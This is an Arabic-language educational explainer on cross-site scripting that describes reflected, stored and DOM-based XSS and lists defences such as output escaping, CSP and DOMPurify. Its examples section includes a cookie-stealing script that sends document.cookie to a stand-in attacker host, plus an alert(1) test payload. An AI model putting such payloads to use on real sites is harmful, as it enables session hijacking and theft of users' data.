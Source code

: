 **XSS (اختراق عبر المواقع المرتبطة - Cross-Site Scripting)** هو نوع من الثغرات الأمنية التي تحدث في تطبيقات الويب، حيث يُمكن لمُهاجم إدخال (Inject) أكواد ضارة (عادةً JavaScript) داخل صفحات الويب التي يشاهدها المستخدمون الآخرون. هذه الأكواد تنفذ في متصفح المستخدم دون علمه، مما يسمح للمُهاجم بسرقة بيانات حساسة أو التحكم في جلسة المستخدم.

---

### **كيف يعمل XSS؟**
1. **الاستغلال:**  
   إذا كانت موقع ويب لا يتحقق من البيانات المدخلة من المستخدم أو لا يقوم بـ "إخفاء" العناصر الخطرة (مثل الأكواد البرمجية)، يمكن للمُهاجم استغلال ذلك لإدخال أكواد ضارة.  
   - مثال: حقل تعليق في موقع بلوق لا يقوم بفلترة HTML. المُهاجم يكتب تعليقًا يحتوي على `<script>...</script>`.

2. **التنفيذ:**  
   عندما يفتح مستخدم آخر الصفحة التي تحتوي على التعليق الضار، ينفذ متصفحه الكود البرمجي دون علمه.  
   - مثال: الكود الضار قد يرسل ملف تعريف الارتباط (Cookies) الخاص بالمستخدم إلى خادم المُهاجم.

3. **النتائج:**  
   - سرقة جلسات المستخدم (Session Hijacking).  
   - سرقة بيانات حساسة (مثل كلمات المرور).  
   - توجيه المستخدم إلى مواقع احتيالية (Phishing).  
   - تعديل محتوى الصفحة بشكل مؤقت أو دائم.

---

### **أنواع XSS الرئيسية:**
1. **Reflected XSS (الانعكاسي):**  
   - الكود الضار "ينعكس" من الخادم إلى المتصفح عبر رابط مزيف (مثلاً في رسالة بريد إلكتروني).  
   - يتطلب خداع المستخدم لفتح الرابط.

2. **Stored XSS (المخزن):**  
   - الكود الضار يُخزن على الخادم (مثل قاعدة بيانات الموقع) ويُعرض تلقائيًا على المستخدمين.  
   - الأكثر خطورة لأنه يؤثر على الجميع بدون تفاعل مباشر.

3. **DOM-based XSS:**  
   - يحدث بسبب معالجة البيانات الخطرة في جانب العميل (JavaScript) دون تدخل الخادم.  
   - مثل تعديل عنصر في الصفحة باستخدام `document.write` دون فلترة المدخلات.

---

### **أمثلة عملية:**
- **مثال بسيط لـ Stored XSS:**  
  لو كان لديك موقع بلوق يسمح بكتابة تعليقات، والمُهاجم يكتب:  
  ```html
  <script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
  ```  
  عند عرض التعليق، يرسل المتصفح ملف تعريف الارتباط إلى المُهاجم.

- **مثال لـ Reflected XSS:**  
  رابط مزيف مثل:  
  `https://example.com/search?q=<script>alert(1)</script>`  
  إذا لم يفلتر الموقع مدخلات البحث، يُنفّذ الكود في المتصفح.

---

### **كيف تحمي نفسك من XSS؟**
1. **فلترة المدخلات (Input Validation):**  
   - تأكد من أن البيانات المدخلة من المستخدم تتوافق مع التنسيق المتوقع (مثل عدم السماح بـ HTML في حقول النص).

2. **الهروب من المخرجات (Output Escaping):**  
   - حوّل الرموز الخطرة (مثل `<`, `>`, `&`) إلى إشارات HTML الآمنة (`&lt;`, `&gt;`, `&amp;`).

3. **Content Security Policy (CSP):**  
   - سياسة أمان تمنع تنفيذ الأكواد من مصادر غير موثوقة.

4. **استخدام أدوات الأمان:**  
   - استخدام مكتبات مثل [DOMPurify](https://github.com/cure53/DOMPurify) لتنظيف HTML.

5. **تحديث الأنظمة:**  
   - تأكد من تحديث الإطارات والأدوات المستخدمة (مثل React, Angular) لتجنب الثغرات المعروفة.

---

### **ملاحظة مهمة:**
رغم اسمه "Cross-Site"، فإن الهجوم لا يأتي من موقع آخر، بل يستغل ثغرة في الموقع نفسه لتشغيل الكود الضار. المفتاح هو **عدم الثقة في أي بيانات من المستخدم**.